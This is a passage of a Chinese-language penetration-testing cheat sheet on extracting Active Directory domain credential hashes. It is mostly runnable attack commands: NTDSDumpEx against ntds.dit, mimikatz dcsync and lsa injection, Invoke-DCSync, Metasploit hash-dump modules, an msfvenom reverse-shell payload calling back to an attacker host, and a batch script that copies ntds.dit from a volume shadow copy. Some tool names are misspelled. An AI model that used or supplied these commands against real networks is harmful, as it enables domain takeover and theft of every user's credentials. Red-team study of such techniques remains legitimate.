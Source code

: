 ```
https://github.com/zcgonvh/NTDSDumpEx/releases/download/v0.3/NTDSDumpEx.zip

NTDSDumpEx.exe -d ntds.dit -s system
```

### 利用dcsync获取域散列值
- 使用mimikatz转储域散列值(域管)

```
lsadump::dcsync /domain:pentest.com /all /csv 所有用户名的散列值

lsadump::dcsync /domain:pentest.com /user:syst1m
导出指定用户的散列值

privilege::debug
lsadump::lsa /inject 域控上转储lsass.exe dump散列值
```
- 使用dcsync获取域账户和域散列值

```
https://gist.github.com/monoxgas/9d238accd969550136db

Invoke-DCSync -PWDumpFormat
```

### 使用measploit获取域散列值

- osexec_ntdsgrab

```
use auxiliary/admin/smb/psexec_ntdsgeab
RHOST、SMBDOMAIN、SMBUser、SMBPass参数
```

- 基于meterprter会话获取域账号和散列值

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.xxx.xxx.xxx LPORT = 5555 -f exe > s.exe

use windows/gather/credentials/domain_hashdump
```
### 使用vshadow.exe和QuarksPwDump.exe导出域账号和散列值
- 下载地址

```
https://github.com/quarkslab/quarkspwdump

ShadowCopy.vbs

setlocal
if NOT "%CALLBACK_SCRIPT%"=="" goto :IS_CALLBACK
set SOURCE_DRIVE_LETTER=%SystemDrive%
set SOURCE_RELATIVE_PATH=\windows\ntds\ntds.dit
set DESTINATION_PATH=%~dp0
@echo ...Determine the scripts to be executed/generated...
set CALLBACK_SCRIPT=%~dpnx0
set TEMP_GENERATED_SCRIPT=GeneratedVarsTempScript.cmd
@echo ...Creating the shadow copy...
"%~dp0vshadow.exe" -script=%TEMP_GENERATED_SCRIPT% -exec="%CALLBACK_SCRIPT%" %SOURCE_DRIVE_LETTER%
del /f %TEMP_GENERATED_SCRIPT%
@goto :EOF
:IS_CALLBACK
setlocal
@echo ...Obtaining the shadow copy device name...
call %TEMP_GENERATED_SCRIPT%
@echo ...Copying from the shadow copy to the destination path...
copy "%SHADOW_DEVICE_1%\%SOURCE_RELATIVE_PATH%" %DESTINATION_PATH%
```